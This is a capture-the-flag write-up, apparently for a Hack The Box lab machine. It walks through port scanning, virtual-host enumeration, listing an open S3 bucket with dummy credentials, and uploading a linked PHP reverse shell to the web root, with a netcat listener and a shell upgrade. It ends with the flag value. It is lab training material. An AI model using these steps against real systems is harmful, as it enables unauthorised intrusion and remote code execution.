








## TL;DR

We find `s3` bucket which we access with invalid credentials. Then we upload webshell to webserver directory, and get the flag.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```



We can see that port `22` is opened with *ssh* service, and also port `80` with *apache* service.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we go to the website, we can see a regular site, and inside we can see it uses domains, as we can see in the mail it uses `thetoppers.htb`.



Let's add this to our `/etc/hosts`. 

### Find s3 subdomain and accessing it with invalid credentials

Now we want to find more subdomains, maybe there is something interesting.

For this, I downloaded `SecLists` using this command:
```bash
sudo git clone https://github.com/danielmiessler/SecLists.git
```
and put it inside `/usr/share`, that i'll be able to use it in the future. It has multiple wordlists that can be very useful.

Then, we'll use `gobuster` on `vhost` mode, using this command. Notice the `--append-domain` is important, otherwise it just sends the words from the wordlists, without the original domain:
```bash
gobuster vhost --url http://thetoppers.htb/ -w /usr/share/SecLists/Discovon-5000.txt --append-domain
```



Okay, we find `s3.thetoppers.htb`, which is the bucket of `aws`. let's add it to our `/etc/hosts` file, remember this is only virtual host, so it uses the same ip. 

Now after we want to use the tool `aws` to connect to the bucket. In my case, I needed to install `awscli`, using this command:
```bash
sudo apt install awscli
```

First, we need to configure the credentials using `aws configure` command. In regular state we'll need to put here the real credentials, however, in our case we can login also with invalid credentials.
```bash
┌──(agonen㉿kali)-[~/htb/Three]
└─$ aws configure
AWS Access Key ID [****************a]: bla
AWS Secret Access Key [****************a]: bla
Default region name [a]: bla
Default output format [a]: bla
```

Then, we want to list all available buckets:
```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 ls
```
We specify the endpoint using the `--endpoint` flag, and also note we want all `s3` buckets, using the `ls` command.

```bash
┌──(agonen㉿kali)-[~/htb/Three]
└─$ aws --endpoint "http://s3.thetoppers.htb/" s3 ls                    
2025-10-06 06:27:28 thetoppers.htb
```

Okay, now we want to get all files in the bucket, using this command:

```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 ls "s3://thetoppers.htb/"
```


### Uploading webshell to webserver folder and get flag

As we can see, it holds the files for the webserver. 
```bash
2025-10-06 06:27:28          0 .htaccess
2025-10-06 06:27:28      11952 index.php
```

Let's upload our `webshell`, that will execute `reverse shell`, and then we'll compromise the webserver.

We uses pentest monkey reverse shell, from here [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

```php

```

We need to change the `ip` and the `port`, based on our ip and the port we uses to listen using the command `nc -nvlp 770`


Now, let's upload the `php-reverse-shell.php` using this command:
```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 cp php-reverse-shell.php "s3://thetoppers.htb/"
```




And now, set the listener and access the webshell, `http://thetoppers.htb/php-reverse-shell.php`, and go back to the terminal.



I like to paste those commands, it spawns me a normal shell i can work with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

I execute `find / -name "flag.txt" 2>/dev/null` to find where `flag.txt` is hidden, and this is the result. 
```bash
www-data@three:/$ find / -name "flag.txt" 2>/dev/null
/var/www/flag.txt
```



**Flag:*****`a980d99281a28d638ac68b9bf9453c2b`***
